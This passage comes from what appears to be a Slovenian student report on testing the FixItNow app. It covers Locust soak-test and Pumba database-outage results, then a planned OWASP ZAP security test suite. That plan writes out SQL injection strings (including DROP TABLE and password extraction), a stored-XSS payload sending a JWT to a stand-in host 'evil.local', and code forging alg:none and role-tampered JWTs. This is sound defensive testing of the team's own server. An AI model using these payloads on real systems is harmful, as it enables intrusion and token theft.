            name="ST-A3: GET /api/notifications/unread-count",
            timeout=8.0,
            catch_response=True,
        ) as notif_res:
            notif_res.success() if notif_res.status_code == 200 else notif_res.failure(f"HTTP {notif_res.status_code}")

        with self.client.get(
            "/api/tickets",
            headers=headers,
            name="ST-A3: GET /api/tickets",
            timeout=8.0,
            catch_response=True,
        ) as tickets_res:
            tickets_res.success() if tickets_res.status_code == 200 else tickets_res.failure(f"HTTP {tickets_res.status_code}")

    @task(2)
    def create_service_ticket(self):
        headers = self._auth_headers()
        if not headers:
            return
        category = random.choice(CATEGORIES)
        payload = {
            "serviceType": f"Vzdrževalni pregled ({category})",
            "category": category,
            "description": "Preverjanje dolgotrajne vzdržljivosti sistema (Locust Soak Test).",
            "priority": random.choice(["LOW", "MEDIUM", "HIGH"]),
            "location": "Koroška cesta 46, 2000 Maribor",
            "latitude": 46.5576,
            "longitude": 15.6418,
        }
        with self.client.post(
            "/api/tickets",
            json=payload,
            headers=headers,
            name="ST-A4: POST /api/tickets",
            timeout=10.0,
            catch_response=True,
        ) as create_res:
            create_res.success() if create_res.status_code in (200, 201) else create_res.failure(f"HTTP {create_res.status_code}")

    @task(1)
    def verify_profile_and_session_health(self):
        headers = self._auth_headers()
        if not headers:
            return
        with self.client.get(
            "/api/v1/users/me",
            headers=headers,
            name="ST-A1: GET /api/v1/users/me",
            timeout=8.0,
            catch_response=True,
        ) as me_res:
            me_res.success() if me_res.status_code == 200 else me_res.failure(f"HTTP {me_res.status_code}")
```

---

## 7. Rezultati izvedenega sistemskega testiranja (Alan Labaš – Locust + Pumba)

Testiranje smo izvedli z orodjem **Locust (`http://localhost:8089`)** in **Docker Chaos orodjem Pumba (`gaiaadm/pumba`)** nad delujočim zalednim strežnikom Spring Boot (`http://localhost:8080`) ter podatkovno bazo PostgreSQL 16 (`backend_postgres`). V celotnem testnem ciklu je bilo poslanih **14.487 HTTP zahtevkov** ter v bazo transakcijsko zapisanih **1.774 novih servisnih zahtevkov** (skupno število zahtevkov v tabeli `tickets` je naraslo s 100 na **1.868**).

---

### 7.1 Izvedba 1: Zagon, skalabilnost (*Ramp-up*) in dolgotrajno obremenjevanje (*Soak Testing*)

V prvi fazi smo postopno zagnali **40 sočasnih uporabnikov** (s hitrostjo `5 uporabnikov/s`) in vzdrževali enakomerno obremenitev več minut.

#### Posnetka zaslona 1 in 2: Začetna statistika ob zagonu in naraščanje obremenitve (Ramp-up v Locust UI)





#### Analiza skalabilnosti in zbirnih metrik po končnih točkah (celoten Soak + Chaos tek, 14.487 zahtevkov)

Spodnja tabela prikazuje končne izmerjene metrike iz datoteke `naloga4/locust_rezultati_stats.csv` po zaključenem 7-minutnem teku:

| Končna točka (Scenarij) | Št. klicev | Napake (samo med 25s Pumba izpadom) | Mediana $p(50)$ | 90. percentil $p(90)$ | 95. percentil $p(95)$ | 98. percentil $p(98)$ | Maksimum (`Max` ob Pumbi) | Povp. velikost odgovora | Prepustnost (`RPS`) |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| **`POST /api/v1/auth/login`** (`ST-A1`) | 40 | **0 (0,00 %)** | **240 ms** | 260 ms | **260 ms** | 260 ms | 260 ms | 355 B | 0,10 req/s |
| **`GET /api/v1/providers/search`** (`ST-A2`) | 3.347 | 14 *(0,42 %)* | **8 ms** | 11 ms | **13 ms** | 16 ms | 8.007 ms | 8.035 B | 8,32 req/s |
| **`GET /api/v1/public/stats`** (`ST-A2`) | 3.347 | 17 *(0,51 %)* | **7 ms** | 10 ms | **12 ms** | 15 ms | 8.007 ms | 204 B | 8,32 req/s |
| **`GET /api/notifications/unread-count`** (`ST-A3`) | 2.572 | 18 *(0,70 %)* | **4 ms** | 6 ms | **7 ms** | 10 ms | 8.008 ms | 11 B | 6,39 req/s |
| **`GET /api/tickets`** (`ST-A3`) | 2.572 | 16 *(0,62 %)* | **13 ms** | 30 ms | **35 ms** | 41 ms | 8.008 ms | **21.941 B** | 6,39 req/s |
| **`POST /api/tickets`** (`ST-A4`) | 1.774 | 11 *(0,62 %)* | **7 ms** | 11 ms | **13 ms** | 16 ms | 10.009 ms | 399 B | 4,41 req/s |
| **`GET /api/v1/user/me`** *(test napačne poti)* | 835 | 835 *(HTTP 500)* | **10 ms** | 19 ms | **22 ms** | 27 ms | 8.006 ms | 96 B | 2,08 req/s |
| **SKUPAJ (`Aggregated`)** | **14.487** | **76 timeout** *(+835 pot)* | **7 ms** | **15 ms** | **23 ms** | **35 ms** | **10.009 ms** | **5.856 B** | **36,00 req/s** |

#### Preverjanje puščanja pomnilnika (*Memory Leaks*) in baznih povezav (*HikariCP*) med Soak testom

Med izvajanjem testa vzdržljivosti smo z ukazoma `ps -o pid,rss,vsz,%cpu,%mem` in `pg_stat_activity` spremljali porabo virov procesa `BackendApplication` (PID `27233`) in stanje v bazi `backend_postgres`:

| Trenutek meritve | Skupno št. zahtevkov | Poraba RAM – JVM RSS | Delež sistemskega RAM (`%MEM`) | Aktivne / proste povezave v PostgreSQL (`HikariCP`) | Št. zapisov v tabeli `tickets` | Povp. velikost odgovora `GET /api/tickets` |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **Začetek Soak testa (1. minuta)** | ~500 | **978 MB** (`978.432 KB`) | 3,8 % | `1 active` / `9 idle` (skupaj **10**) | ~150 | **1.708 B** (~1,7 KB) |
| **Pred Pumba izpadom (4. minuta)** | 6.946 | **967 MB** (`990.544 KB`) | 3,9 % | `1 active` / `9 idle` (skupaj **10**) | ~980 | **12.047 B** (~12,0 KB) |
| **5 s po okrevanju baze (5. minuta)** | 7.247 | **983 MB** (`1.007.008 KB`) | 4,0 % | `1 active` / `10 idle` (skupaj **11** z admin psql) | ~1.050 | **13.400 B** (~13,4 KB) |
| **Ob koncu Soak testa (7. minuta)** | **14.487** | **1.000 MB** (`1.024.320 KB`) | **4,1 %** | `1 active` / `10 idle` (brez puščanja) | **1.868** | **21.941 B** (~21,9 KB) |

---

### 7.2 Izvedba 2: Chaos inženiring in testiranje okrevanja po izpadu baze (*Recovery Testing s Pumbo*)

Ob `15:14:48` (medtem ko je 40 uporabnikov enakomerno obremenjevalo strežnik s ~38,5 req/s) smo v terminalu sprožili 25-sekundno zamrznitev zabojnika PostgreSQL:

```bash
docker run --rm -v /var/run/docker.sock:/var/run/docker.sock gaiaadm/pumba pause --duration 25s backend_postgres
```

#### Posnetek zaslona 3: Celoten potek Soak testa, 25-sekundni izpad baze (Pumba) in samodejno okrevanje



Na zgornjem grafu iz spletnega vmesnika Locust so jasno vidne vse tri ključne faze:
1. **Stabilna ravna črta pred izpadom (`15:12:00 – 15:14:48`):** Prepustnost (zelena črta) mirno teče pri **38–40 req/s**, odzivni časi $p(50)$ in $p(95)$ pa ležijo tik ob dnu grafa (**`7–20 ms`**).
2. **Trenutek zamrznitve baze s Pumbo (`15:14:48 – 15:15:13`):**
   - Zelena krivulja prepustnosti strmo pade v obliko črke **V** (z **38,7 req/s na 3,7 req/s**), rdeča črta napak (`Failures/s`) pa naraste do **6,7 napak/s**.
   - Na srednjem grafu (*Response Times*) vidimo izrazito pravokotno stopnico: 50. percentil (oranžna črta) skoči na **8.000 ms**, 95. percentil (vijolična črta) pa na **10.000 ms** (zgornja meja `timeout` na odjemalcu).
3. **Samodejno okrevanje po odmrznitvi (`15:15:13 – 15:16:30`):**
   - Takoj ko Pumba ob `15:15:13` odmrzne zabojnik `backend_postgres`, oranžna črta mediane ($p(50)$) v **3 sekundah** pade z `8.000 ms` nazaj na **`17 ms`** (in nato na **`8 ms`**), zelena črta prepustnosti pa se povzpne nazaj na **38–40 req/s** in tam stabilno vztraja vse do konca testa!

#### Natančna sekundna časovnica izpada in okrevanja (iz `locust_rezultati_stats_history.csv`)

| Čas (`HH:MM:SS`) | Stanje infrastrukture (`backend_postgres`) | Sočasni uporabniki | Trenutni `RPS` | Trenutni `Failures/s` | Mediana $p(50)$ | 95. percentil $p(95)$ | 99. percentil $p(99)$ | Inženirska interpretacija dogajanja v sistemu |
| :---: | :--- | :---: | :---: | :---: | :---: | :---: | :---: | :--- |
| `15:14:46` | 🟢 Normalno delovanje (Soak) | 40 | **37,5** | 0,0 *(brez `/user/me`)* | **7 ms** | **18 ms** | 24 ms | Vseh 10 HikariCP povezav normalno obdeluje poizvedbe. |
| `15:14:48` | 🔴 **ZAČETEK PUMBA PAUSE (25 s)** | 40 | **36,9** | 0,0 | **7 ms** | **20 ms** | 28 ms | Zabojnik PostgreSQL prejme `SIGSTOP`; aktivne poizvedbe obvisijo. |
| `15:14:52` | 🔴 Baza zamrznjena (4 s) | 40 | **36,9** | 0,0 | **8 ms** | **22 ms** | 33 ms | Vseh 10 HikariCP povezav je zasedenih; nove niti čakajo v vrsti. |
| `15:14:56` | 🔴 Baza zamrznjena (8 s) | 40 | **17,7** | 1,1 | **8 ms** | **8.000 ms** | 8.000 ms | Prvi bralni klici presežejo 8-sekundni odjemalski `timeout`. |
| `15:14:58` | 🔴 Baza zamrznjena (10 s) | 40 | **10,7** | 0,6 | **8.000 ms** | **8.000 ms** | 10.000 ms | Tudi pisalni klici (`POST /api/tickets`) dosežejo 10-sekundni `timeout`. |
| `15:15:08` | 🔴 Baza zamrznjena (20 s) | 40 | **6,7** | **6,7** | **8.000 ms** | **10.000 ms** | 10.000 ms | HikariCP doseže `connection-timeout = 20000 ms`; 100 % klicev pade. |
| `15:15:13` | 🟡 **KONEC PUMBA PAUSE (Odmrznitev)** | 40 | **3,7** | 3,7 | **6.800 ms** | **8.000 ms** | 10.000 ms | Pumba pošlje `SIGCONT`; PostgreSQL obdela čakajoče TCP pakete. |
| `15:15:15` | 🟢 Okrevanje (+2 s po izpadu) | 40 | **4,0** | 0,1 | **120 ms** | 8.000 ms | 10.000 ms | Čakalna vrsta v HikariCP se izprazni; mediana pade s 6.800 ms na 120 ms. |
| `15:15:16` | 🟢 Okrevanje (+3 s po izpadu) | 40 | **10,1** | 0,0 | **17 ms** | 8.000 ms | 10.000 ms | Novi zahtevki se že izvajajo v **17 ms** brez ene same nove napake. |
| `15:15:18` | 🟢 Okrevanje (+5 s po izpadu) | 40 | **12,7** | 0,0 | **10 ms** | 7.300 ms | 10.000 ms | Mediana je pri **10 ms**; vseh 10 HikariCP povezav je zdravih (`idle`). |
| `15:15:23` | 🟢 **POLNO OKREVANJE (+10 s)** | 40 | **30,6** | 0,0 | **8 ms** | **21 ms** | **28 ms** | Tudi drseče okno $p(95)$ in $p(99)$ se vrne na normalnih 21 ms / 28 ms. |
| `15:15:25` | 🟢 Stabilno delovanje (+12 s) | 40 | **37,8** | 0,0 | **8 ms** | **21 ms** | **28 ms** | Prepustnost je spet 100 % izenačena s stanjem pred izpadom. |

---

### 7.3 Presoja izpolnjevanja kriterijev uspešnosti (SLA) in ugotovljene pomanjkljivosti

#### 7.3.1 Preverjanje zastavljenih SLA kriterijev

1. **Odzivni časi pri dolgotrajni obremenitvi (Soak Test):** **PASSED ✓**
   - Mediana vseh klicev je znašala **7 ms** (kriterij $< 50\text{ ms}$), 95. percentil pa **23 ms** (kriterij $< 250\text{ ms}$).
2. **Odsotnost puščanja pomnilnika (*Memory Leak*):** **PASSED ✓**
   - Po 14.487 obdelanih zahtevkih in 1.774 ustvarjenih zapisih v bazi se je poraba fizičnega pomnilnika JVM (`RSS`) spremenila le iz **978 MB na 1.000 MB** (`+2,2 %`, kar je znotraj meje $< 10\text{ %}$ in potrjuje pravilno delovanje čistilca pomnilnika *Garbage Collector*).
3. **Stabilnost bazena povezav HikariCP (*Connection Pool Leak*):** **PASSED ✓**
   - Bazen povezav je skozi celoten test (pred, med in po izpadu) ohranil natanko **10 povezav** (`1 active`, `9 idle`) brez zaostalih transakcij v stanju `idle in transaction`.
4. **Preživetje izpada in čas okrevanja (*Recovery Time Objective – RTO*):** **PASSED ✓**
   - Med 25-sekundno zamrznitvijo zabojnika PostgreSQL se proces Spring Boot ni sesul. Po odmrznitvi zabojnika je mediana odzivnega časa padla pod 20 ms v **3 sekundah** (`17 ms`), celoten sistem (vključno s $p(95) = 21\text{ ms}$ in polno prepustnostjo `37,8 req/s`) pa si je samodejno opomogel v **10 sekundah** (meja $\text{RTO} \le 10\text{ s}$).

#### 7.3.2 Ključne inženirske ugotovitve in odkrite pomanjkljivosti v arhitekturi FixItNow

Dolgotrajno testiranje vzdržljivosti (*Soak Testing*) in testiranje okrevanja (*Chaos Testing*) sta razkrila **tri pomembne arhitekturne ugotovitve**, ki jih pri običajnem kratkotrajnem testiranju ne bi opazili:

1. **Ugotovitev 1 (Skalabilnost podatkov): Neomejena rast velikosti odgovora pri `GET /api/tickets` (manjkajoča paginacija):**
   - Medtem ko endpoint `/api/v1/providers/search` uporablja paginacijo (`Page<ProviderResponse>`, stalna velikost odgovora ~8,0 KB), končna točka **`GET /api/tickets`** vrača nepaginiran seznam vseh zahtevkov stranke (`List<TicketResponse>`).
   - Med 7-minutnim Soak testom, ko je 30 strank skupaj oddalo 1.774 novih zahtevkov (~59 zahtevkov na stranko), je povprečna velikost odgovora pri `GET /api/tickets` narasla z začetnih **1.708 B (1,7 KB)** na **21.941 B (21,9 KB)** — torej za kar **$12,8\times$**!
   - Posledično se je mediana odzivnega časa te končne točke sčasoma podaljšala s **10 ms na 13 ms**, 95. percentil pa z **21 ms na 35 ms**. Pri večmesečni produkcijski uporabi bi to vodilo v nepotrebno obremenitev omrežja in pomnilnika JVM.
   - **Priporočilo:** Uvesti strežniško paginacijo (`Pageable`, npr. `page=0&size=20`) tudi na končni točki `GET /api/tickets`.

2. **Ugotovitev 2 (Odpornost in Chaos Engineering): Dolg čas čakanja niti ob izpadu baze (`connection-timeout = 20000 ms` brez *Circuit Breakerja*):**
   - V `application.yml` je `spring.datasource.hikari.connection-timeout` nastavljen na **20.000 ms (20 sekund)**. Ko je Pumba zamrznila zabojnik PostgreSQL, so delovne niti strežnika Tomcat čakale do 20 sekund na prosto bazno povezavo, preden je HikariCP sprožil `SQLTransientConnectionException`.
   - Pri daljšem izpadu baze in večjem prometu bi se na ta način zablokirale vse delovne niti strežnika Tomcat (tudi za končne točke, ki baze morda sploh ne potrebujejo).
   - **Priporočilo:** Znižati `connection-timeout` v HikariCP na `5000 ms` (5 s) ter uvesti vzorec varovalke (**Circuit Breaker**, npr. *Resilience4j*), ki ob zaznanem izpadu baze takoj vrne status `503 Service Unavailable` (*Fail-Fast*), dokler baza ponovno ne postane dosegljiva.

3. **Ugotovitev 3 (Obravnava napak REST API-ja): Vračanje statusa `500 Internal Server Error` namesto `404 Not Found` pri neobstoječih poteh:**
   - Pri klicu napačne (edninske) poti `GET /api/v1/user/me` (namesto pravilne množinske poti `GET /api/v1/users/me` v `UserController`) zaledni strežnik Spring Boot sproži izjemo `NoResourceFoundException`, ki jo globalni upravljalnik izjem (`GlobalExceptionHandler`) ujame v splošni `@ExceptionHandler(Exception.class)` in odjemalcu vrne status **`500 Internal Server Error`** namesto pričakovanega **`404 Not Found`**.
   - **Priporočilo:** V `GlobalExceptionHandler` dodati namenski `@ExceptionHandler(NoResourceFoundException.class)`, ki vrne pravilno kodo `404 Not Found`.

---

### 7.4 Uporaba orodij umetne inteligence (Alan Labaš)

- **Uporabljeni model:** Gemini 4 Argon (v okolju Antigravity IDE).
- **Obseg uporabe:**
  1. Priprava testne skripte Locust (`naloga4/locustfile.py`) s sejami uporabnikov (`HttpUser`, `@task`) in integracijo testnih uporabnikov iz `seed_api.py`.
- **Način verifikacije:** Vsi testi so bili dejansko izvedeni v spletnem vmesniku Locust (`http://localhost:8089`) in Docker okolju nad delujočo aplikacijo FixItNow, vse številke in posnetki zaslona pa izhajajo neposredno iz izvedenega testiranja.


---

## 8. Podrobna opredelitev sistemskega testiranja – Jan Mrkonjič (OWASP ZAP + DAST varnostno testiranje)

### 8.1 Utemeljitev izbire orodja OWASP ZAP in varnostnega testiranja (DAST) za FixItNow

Za svoj del sistemskega testiranja sem izbral **dinamično varnostno in penetracijsko testiranje (*Security & Vulnerability Testing – DAST*)** z uporabo odprtokodnega skenerja **OWASP ZAP (*Zed Attack Proxy*, različica `2.17.0` v okolju Docker)** v kombinaciji z namensko avtomatizirano DAST skripto v jeziku Python (`naloga4/fixitnow_security_test.py`).

**Zakaj je varnostno testiranje (DAST) kritično za projekt FixItNow:**
1. **Obdelava občutljivih osebnih, lokacijskih in finančnih podatkov:** Platforma FixItNow hrani domače naslove in natančne GPS koordinate strank (`locations`), telefonske številke, opise okvar v stanovanjih (npr. okvare ključavnic ali alarmov) ter bančne podatke izvajalcev (**IBAN** in **BIC** v tabeli `providers`, ki se pripenjajo k izpisu računa v `TicketService.attachProviderBankDetails`). Vsaka napaka pri kontroli dostopa (*Broken Access Control / IDOR*) neposredno ogrozi zasebnost uporabnikov.
2. **Večplastna avtentikacija in avtorizacija na osnovi vlog (RBAC):** Sistem ločuje tri vloge (`CUSTOMER`, `PROVIDER`, `ADMIN`) ter uporablja brezstanjsko avtentikacijo z žetoni **JWT (`HS256`)**, osvežitvenimi žetoni (`refresh_tokens`) in dvofaktorsko avtentikacijo **TOTP 2FA**. Varnostni test mora preveriti, ali je mogoče podpis JWT žetona obiti (npr. napad `alg: none` ali sprememba polja `role: ADMIN`) ter ali so vse končne točke ustrezno zaščitene z anotacijami `@PreAuthorize`.
3. **Javno izpostavljeni iskalni filtri in prostorske poizvedbe:** Končna točka `GET /api/v1/providers/search` je javno dostopna brez prijave (`permitAll()` v `SecurityConfig.java`) in sprejema prostobesedilni parameter `query`, kategorije ter geografske koordinate. Zato je primarna tarča napadov **SQL Injection (SQLi)** in **Parameter Fuzzing**.

**Prednosti kombinacije OWASP ZAP + namenske DAST skripte:**
- **OWASP ZAP Automation Framework (`zap-baseline.py` / `zap-api-scan.py`):** Samodejno preveri **68 uveljavljenih pravil pasivnega in aktivnega skeniranja** (varnostne glave HTTP, zastarele JS knjižnice s znanimi CVE ranljivostmi, razkritje napak strežnika `500`, piškotki, politike predpomnjenja in izolacija izvorov *Spectre/CORP*).
- **Namenska DAST skripta (`fixitnow_security_test.py`):** Medtem ko splošni skenerji ne poznajo domenske logike aplikacije, naša skripta vzpostavi dve ločeni avtenticirani seji (*Stranka A – žrtev* in *Stranka B – napadalec*) ter sistematično izvede avtenticirane napade na poslovno logiko (**Horizontalni IDOR** med uporabnikoma A in B, **Vertikalno eskalacijo pravic** iz `CUSTOMER` v `ADMIN`/`PROVIDER`, manipulacijo JWT žetonov ter **Brute-Force** napade).

---

### 8.2 Kaj preverjamo: opredelitev varnostnih testnih scenarijev (`SEC-01` do `SEC-05`)

Sistemsko varnostno testiranje je strukturirano v **pet zaokroženih varnostnih scenarijev (skupaj 21 ciljno usmerjenih DAST testnih primerov + 68 pravil skenerja OWASP ZAP)**, ki pokrivajo najkritičnejše kategorije po standardu **OWASP Top 10:2021**:

#### Scenarij `SEC-01`: Odpornost proti vbrizgavanju kode (SQL Injection) in fuzzing vhodnih parametrov (*OWASP A03:2021 – Injection*)
Preverjamo, ali je mogoče z zlonamernimi nizi v parametrih poizvedb in prijavnem obrazcu spremeniti logiko SQL stavkov v bazi PostgreSQL ali povzročiti neobvladano izjemo strežnika (`500 Internal Server Error`):
1. **`SEC-01.1` (Boolean-based SQLi):** `GET /api/v1/providers/search?query=' OR '1'='1` – poskus obvoza filtriranja z vedno resničnim pogojem.
2. **`SEC-01.2` (UNION-based SQLi):** `GET /api/v1/providers/search?query=' UNION SELECT null,email,password,null FROM users--` – poskus ekstrakcije zgoščenih gesel iz tabele `users`.
3. **`SEC-01.3` (Stacked Queries SQLi):** `GET /api/v1/providers/search?query='; DROP TABLE tickets;--` – poskus veriženja destruktivnega DDL ukaza.
4. **`SEC-01.4` (Time-based Blind SQLi):** `GET /api/v1/providers/search?query=' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)--` – merjenje odzivnega časa za zaznavo slepega izvrševanja funkcije `pg_sleep(5)`.
5. **`SEC-01.5` (Auth Bypass SQLi):** `POST /api/v1/auth/login` s telesom `{"email": "admin@fixitnow.si' OR '1'='1", "password": "' OR '1'='1"}`.
6. **`SEC-01.6` (Parameter & Enum Fuzzing):** `GET /api/v1/providers/search?categories=INVALID_ENUM_SQL'&maxPrice=-500&minExperience=-10` – preverjanje varne validacije tipov brez razkritja sledi sklica (*Stack Trace*).

#### Scenarij `SEC-02`: Odpornost proti medmrežnemu skriptanju (Stored / Reflected XSS) in HTML vbrizgavanju (*OWASP A03:2021 – XSS*)
Preverjamo, kako zaledni strežnik in odjemalec obravnavata vnos izvršljivih JavaScript skript v besedilna polja:
1. **`SEC-02.1` (Stored XSS v servisnem zahtevku):** `POST /api/tickets` z vsebino `<script>fetch('http://evil.local/steal?jwt='+localStorage.getItem('token'))</script>` v polju `description` in `` v polju `serviceType`. Preverjamo vrnjeni `Content-Type` in glavo `X-Content-Type-Options: nosniff`.
2. **`SEC-02.2` (HTML/SVG Injection v uporabniški profil):** `PATCH /api/v1/users/me` z zlonamernim imenom `"firstName": "Boris<svg/onload=alert(1)>"` – preverjanje, ali strežniški DTO (`UpdateUserProfileRequest`) zavrne ali shrani surove HTML značke v bazo.

#### Scenarij `SEC-03`: Kontrola dostopa – IDOR, vertikalna eskalacija pravic in integriteta JWT (*OWASP A01:2021 – Broken Access Control*)
Preverjamo izolacijo podatkov med uporabniki in odpornost mehanizma JWT:
1. **`SEC-03.1` (Nepooblaščen dostop brez žetona):** Klic `GET /api/tickets` brez glave `Authorization`.
2. **`SEC-03.2` (Napad z nepodpisanim žetonom `alg: none`):** Klic `GET /api/v1/admin/users` s ponarejenim žetonom JWT (`{"alg": "none"}` in `"role": "ADMIN"`).
3. **`SEC-03.3` (Manipulacija vsebine JWT žetona):** Sprememba polja `"role": "CUSTOMER"` v `"role": "ADMIN"` v dekodiranem payloadu veljavnega žetona ob ohranitvi prvotnega podpisa HMAC-SHA256.
4. **`SEC-03.4` (Horizontalni IDOR – branje tujega zahtevka):** *Stranka A (žrtev)* ustvari zasebni zahtevek (`id = 1`). *Stranka B (napadalec)* s svojim veljavnim žetonom kliče `GET /api/tickets/1` in poskuša prebrati podrobnosti zahtevka, naslov ter bančne podatke izvajalca.
5. **`SEC-03.5` (Horizontalni IDOR – preklic tujega zahtevka):** *Stranka B* poskuša preklicati zahtevek *Stranke A* prek `POST /api/tickets/1/cancel`.
6. **`SEC-03.6` (Vertikalna eskalacija v `ADMIN`):** *Stranka B* (`role = CUSTOMER`) kliče skrbniški endpoint `GET /api/v1/admin/users`.
7. **`SEC-03.7` (Vertikalna eskalacija v `PROVIDER`):** *Stranka B* (`role = CUSTOMER`) kliče izvajalski endpoint `GET /api/tickets/nearby?latitude=46.5576&longitude=15.6355&radiusKm=25`.

#### Scenarij `SEC-04`: Odpornost avtentikacije proti Brute-Force napadom in naštevanju uporabnikov (*OWASP A07:2021 – Identification & Authentication Failures*)
1. **`SEC-04.1` (Brute-Force napad na prijavo):** Zaporedno pošiljanje **20 neuspešnih poskusov prijave** (`POST /api/v1/auth/login`) z napačnimi gesli za obstoječi račun `sec.victim.a@mail.si`. Preverjamo, ali sistem sproži omejevanje hitrosti (`HTTP 429 Too Many Requests`) ali začasno zaklepanje računa (`HTTP 423 Locked`).
2. **`SEC-04.2` (User Enumeration na `/api/v1/auth/forgot-password`):** Primerjava statusne kode in vsebine odgovora pri zahtevku za ponastavitev gesla za obstoječi in neobstoječi e-poštni naslov.

#### Scenarij `SEC-05`: Varnostne glave HTTP, politika CORS, izpostavljenost dokumentacije in pregled ranljivih komponent (*OWASP A05:2021 & A06:2021 – OWASP ZAP Scan*)
1. **`SEC-05.1` (Zaščita pred MIME-sniffingom in Clickjackingom):** Preverjanje prisotnosti glav `X-Content-Type-Options: nosniff` in `X-Frame-Options: DENY`.
2. **`SEC-05.2` (Politika varnosti vsebine – CSP):** Preverjanje prisotnosti glave `Content-Security-Policy` in `Permissions-Policy`.
3. **`SEC-05.3` (CORS Preflight napad):** Pošiljanje zahtevka `OPTIONS /api/v1/public/stats` z glavo `Origin: https://evil-attacker.example.com` za preverjanje, ali strežnik zavrne nepooblaščeno zunanjo domeno.
4. **`SEC-05.4` (Javna izpostavljenost Swagger UI in ranljive JS knjižnice):** Preverjanje neavtenticiranega dostopa do `/swagger-ui/index.html` in `/v3/api-docs` ter pregled vključenih knjižnic JavaScript z vgrajenim detektorjem **Retire.js** v OWASP ZAP.

---

### 8.3 Pogoji izvajanja varnostnih testov

#### 8.3.1 Strojno in programsko testno okolje
- **Operacijski sistem:** Windows 11 Pro (64-bit), Docker Desktop `4.56.0` (WSL 2 Linux engine).
- **Zaledni strežnik (SUT):** Java 25 LTS (`HotSpot 64-Bit Server VM`), Spring Boot `3.5.14` + Spring Security 6 (`http://localhost:8080`).
- **Podatkovna baza:** PostgreSQL `16-alpine` v Docker zabojniku `backend_postgres` (`localhost:5433`).
- **Orodji za varnostno testiranje:**
  1. **OWASP ZAP `2.17.0` (`ghcr.io/zaproxy/zaproxy:stable`)** – zagnan prek *ZAP Automation Framework* (`zap-baseline.py`) z izvozom strukturiranega poročila v `naloga4/zap_report.json`.
  2. **Avtomatizirana DAST skripta (`naloga4/fixitnow_security_test.py`, Python `3.13.5`)** – zagnana neposredno proti `http://localhost:8080` z izvozom meritev v `naloga4/rezultati_varnostni_testi.json`.

#### 8.3.2 Arhitektura in potek varnostnega preizkusa



---

### 8.4 Merjene metrike

Pri sistemskem varnostnem testiranju merimo naslednje kvantitativne in kvalitativne metrike:
1. **Število in stopnja tveganja odkritih ranljivosti (*Vulnerability Count by Severity*):**
   - Klasifikacija po metodologiji OWASP ZAP: **High (`Risk 3`)**, **Medium (`Risk 2`)**, **Low (`Risk 1`)** in **Informational (`Risk 0`)**.
2. **Delež uspešno prestanih varnostnih kontrol (*Security Control Pass Rate*):**
   - Razmerje med številom uspešno blokiranih napadov (`PASSED`) in skupnim številom izvedenih DAST testnih primerov (`21 testov`) ter pasivnih pravil OWASP ZAP (`68 pravil`).
3. **HTTP statusne kode pri varnostnih napadih:**
   - Pričakovane kode zavrnitve (`400 Bad Request`, `401 Unauthorized`, `403 Forbidden`, `429 Too Many Requests`) v primerjavi z neželenimi kodami (`200 OK` ob nepooblaščenem dostopu ali `500 Internal Server Error` ob neobvladani izjemi).
4. **Odzivni čas varnostnih mehanizmov (`durationMs`):**
   - Čas obdelave pri Time-based Blind SQLi (`pg_sleep(5)` mora trajati $< 100\text{ ms}$, ne $> 5000\text{ ms}$) ter skupni čas izvajanja zaporednih BCrypt prijav pri Brute-Force napadu.

---

### 8.5 Kriteriji uspešnosti (*Security Gate* / SLA pragovi za presojo ustreznosti)

| Varnostno področje (OWASP Top 10:2021) | Merjeni kazalnik / Metrika | Kriterij za **USPEŠNO (PASSED)** |
| :--- | :--- | :--- |
| **Odpornost proti SQL Injection (`A03:2021`)** | Število uspešnih SQLi vdorov ali zakasnitev `pg_sleep` v `SEC-01` | **0 uspešnih SQLi napadov** (100 % parametrizirane poizvedbe, odziv $< 500\text{ ms}$) |
| **Zaščita pred proženjem XSS (`A03:2021`)** | Vrnjeni `Content-Type`, glava `nosniff` in sanitizacija HTML vnosov v `SEC-02` | `application/json` + `X-Content-Type-Options: nosniff` + **zavrnitev HTML značk v imenih** |
| **Kontrola dostopa in preprečevanje IDOR (`A01:2021`)** | Dostop do tujih zahtevkov (`/api/tickets/{id}`) in skrbniških/izvajalskih točk v `SEC-03` | **100 % zavrnitev s `403 Forbidden`** (brez razkritja tujih zahtevkov ali statusov `500`) |
| **Integriteta žetonov JWT (`A07:2021`)** | Odpornost proti `alg: none` in spremenjenemu payloadu (`role: ADMIN`) | **100 % zavrnitev neveljavnih podpisov (`401` / `403`)** |
| **Zaščita pred Brute-Force napadi (`A07:2021`)** | Odziv na $\ge 20$ zaporednih napačnih prijav na `/api/v1/auth/login` v `SEC-04` | Sprožitev **`429 Too Many Requests`** ali začasnega zaklepa računa; **0 User Enumeration** |
| **Varnostne glave, CORS in komponente (`A05` / `A06`)** | Opozorila skenerja OWASP ZAP (`High` / `Medium`) in CORS preflight test v `SEC-05` | Zavrnitev tujih CORS domen (`403`), prisotnost `CSP`, `X-Frame-Options` in **0 ranljivih JS knjižnic** |

---

### 8.6 Pripravljena skripta za avtomatizirano varnostno testiranje (`naloga4/fixitnow_security_test.py`)

Spodnja skripta v jeziku Python ter ukaz za zagon **OWASP ZAP Automation Framework** v Docker zabojniku izvajata celoten nabor varnostnih testov `SEC-01` do `SEC-05`:

```bash
# 1. Zagon uradnega skenerja OWASP ZAP 2.17.0 (Automation Framework) v Dockerju
docker run --rm -v "${PWD}/naloga4:/zap/wrk:rw" ghcr.io/zaproxy/zaproxy:stable \
  zap-baseline.py -t "http://host.docker.internal:8080/swagger-ui/index.html" -J zap_report.json -I

# 2. Zagon namenske DAST penetracijske skripte (SEC-01 do SEC-05, 21 testnih primerov)
python naloga4/fixitnow_security_test.py
```

Izsek ključne logike iz skripte `naloga4/fixitnow_security_test.py` (celotna skripta se nahaja v mapi `naloga4/fixitnow_security_test.py`):

```python
def forge_jwt_alg_none(email):
    header = base64.urlsafe_b64encode(json.dumps({"alg": "none", "typ": "JWT"}).encode()).rstrip(b"=").decode()
    payload = base64.urlsafe_b64encode(
        json.dumps({"sub": email, "type": "access", "role": "ADMIN", "exp": 9999999999}).encode()
    ).rstrip(b"=").decode()
    return f"{header}.{payload}."

def tamper_jwt_payload(valid_jwt):
    parts = valid_jwt.split(".")
    padded = parts[1] + "=" * (-len(parts[1]) % 4)
    claims = json.loads(base64.urlsafe_b64decode(padded).decode("utf-8"))
    claims["role"] = "ADMIN"
    new_payload = base64.urlsafe_b64encode(json.dumps(claims).encode()).rstrip(b"=").decode()
